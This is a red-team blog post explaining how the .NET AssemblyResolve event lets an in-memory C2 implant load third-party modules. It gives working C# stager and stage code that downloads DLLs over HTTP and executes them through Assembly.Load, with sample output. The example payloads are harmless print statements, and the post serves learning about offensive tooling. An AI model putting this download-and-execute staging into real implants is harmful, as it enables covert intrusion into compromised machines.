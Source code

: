 ```yaml
---
title: "AppDomain.AssemblyResolve"
date: 2020-12-21T12:06:54Z
draft: false
tags:
    - "c#"
    - ".net"
authors:
    - RastaMouse
---
```


### Intro

[Jean Maes](https://twitter.com/Jean_Maes_1994) posted a blog entitled "[A tale of .NET assemblies, cobalt strike size constraints, and reflection](https://redteamer.tips/a-tale-of-net-assemblies-cobalt-strike-size-constraints-and-reflection/)", which looked at how to use the [AssemblyResolve](https://docs.microsoft.com/en-us/dotnet/api/system.appdomain.assemblyresolve?view=net-5.0) event to locate .NET dependancies at runtime that were not already weaved into an assembly or located in the [GAC](https://docs.microsoft.com/en-us/dotnet/framework/app-domains/gac).

For a decent background, I encourage readers to review Jean's post.  Since the author credits me for pointing them towards the event, I thought it would be informative to write about the scenario under which I came across it.

### .NET "Stagers", "Stages" and "Modules"

It all started one sunny morning (although I live in the UK so let's face it, it was probably raining) when I was thinking about how I could implement stagers and modules in [SharpC2](https://github.com/SharpC2/SharpC2) (my .NET C2 framework).  I won't use the SharpC2 codebase because it's a little too much to get into just for the purposes of this post, so I'll use some more simplistic examples instead.

The "stage" or "implant" is the main payload that contains all the functionality and logic we need to operate on a compromised machine.  At a minimum, this probably includes the ability to talk to a server, retrieve jobs, execute those jobs and send the results back.  One challenge with implants is that the more complex they become, the larger their filesize and the harder they become to deliver (e.g. during initial compromise).  Stagers are one solution to this problem - as they are tiny programs that can be delivered with the sole responsibility of pulling and loading the main stage.

Let's write a very simpe stage and stager:

#### Stage (.NET Class Library)
```c#
using System;

namespace Stage
{
    public class StageEntry
    {
        public static void Execute()
        {
            Console.WriteLine("[+] Hello from Stage");
        }
    }
}
```

#### Stager (.NET Console Application)
```c#
using System;
using System.Net;
using System.Reflection;

namespace Stager
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("[+] Hello from Stager");
            Console.WriteLine("[+] Loading Stage...");

            using (var client = new WebClient())
            {
                var uri = new Uri("http://localhost:8000/stage.dll");
                var stage = client.DownloadData(uri);
                var asm = Assembly.Load(stage);
                asm.GetType("Stage.StageEntry").GetMethod("Execute").Invoke(null, new object[] { });
            }
        }
    }
}
```

This works as expected - the stager downloads and executes the stage.

```text
C:\>Stager.exe
[+] Hello from Stager
[+] Loading Stage...
[+] Hello from Stage
```

Now, one of the design decisions that were made regarding the SharpC2 implant was to make it extensible at runtime.  If the operator needed to push some new capability that was not "native" to the implant, then we wanted a means to provide that functionality.  To that end, we designed an interface on the implant that 3rd party modules could implement.

#### Module (.NET Class Library)

The exact implemention of the interface is not important - to demonstrate, we can use:

```c#
namespace Stage
{
    public interface IAgentModule
    {
        void Test();
    }
}
```

Then the module would look like this (note that it's a separate project in Visual Studio with a reference to the Stage project):

```c#
using Stage;
using System;

namespace Module
{
    public class AgentModule : IAgentModule
    {
        public void Test()
        {
            Console.WriteLine("[+] Hello from Module");
        }
    }
}
```

We shall now change the `Execute` method within the stage to:

```c#
public static void Execute()
{
    Console.WriteLine("[+] Hello from Stage");
    Console.WriteLine("[+] Loading Module...");

    using (var client = new WebClient())
    {
        var uri = new Uri("http://localhost:8000/module.dll");
        var bytes = client.DownloadData(uri);

        var asm = Assembly.Load(bytes);
        var instance = asm.CreateInstance("Module.AgentModule", true);

        if (instance is IAgentModule module)
        {
            module.Test();
        }
        else
        {
            Console.WriteLine("[-] Module does not implement IAgentModule");
        }
    }
}
```

However, if we run the stager, we get the following:

```text
C:\>Stager.exe
[+] Hello from Stager
[+] Loading Stage...
[+] Hello from Stage
[+] Loading Module...
[-] Module does not implement IAgentModule
```

### AppDomain.AssemblyResolve

It appears that the assembly is failing to locate `IAgentModule`, and this is finally where we get to the `AssemblyResolve` event.  If we place a breakpoint around `if (asm is IAgentModule)`, we can use the Immediate Window in Visual Studio to do some poking around.

```text
Assembly.GetCallingAssembly().FullName
"Stager, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null"

AppDomain.CurrentDomain.FriendlyName
"Stager.exe"
```

We can see that our current AppDomain is that of stager.exe and stager is the current calling assembly.  Since the `IAgentInterface` is part of the **stage**, this explains why the resolution is failing.  All we have to do is register the AssemblyResolve callback to get an instance of the stage assembly where resolution will succeed.

```c#
AppDomain.CurrentDomain.AssemblyResolve += AssemblyResolveCallback;
```

And the method to handle this callback:

```c#
static Assembly AssemblyResolveCallback(object sender, ResolveEventArgs args) => Assembly.GetExecutingAssembly();
```

Even though stager is the calling assembly, stage is the executing assembly.  The stage in full is now:

```c#
using System;
using System.Net;
using System.Reflection;

namespace Stage
{
    public class StageEntry
    {
        public static void Execute()
        {
            Console.WriteLine("[+] Hello from Stage");
            Console.WriteLine("[+] Loading Module...");

            using (var client = new WebClient())
            {
                var uri = new Uri("http://localhost:8000/module.dll");
                var bytes = client.DownloadData(uri);

                AppDomain.CurrentDomain.AssemblyResolve += AssemblyResolveCallback;

                var asm = Assembly.Load(bytes);
                var instance = asm.CreateInstance("Module.AgentModule", true);

                if (instance is IAgentModule module)
                {
                    module.Test();
                }
                else
                {
                    Console.WriteLine("[-] Module does not implement IAgentModule");
                }
            }
        }

        static Assembly AssemblyResolveCallback(object sender, ResolveEventArgs args) => Assembly.GetExecutingAssembly();
    }
}
```

And now we get:

```text
C:\>Stager.exe
[+] Hello from Stager
[+] Loading Stage...
[+] Hello from Stage
[+] Loading Module...
[+] Hello from Module
```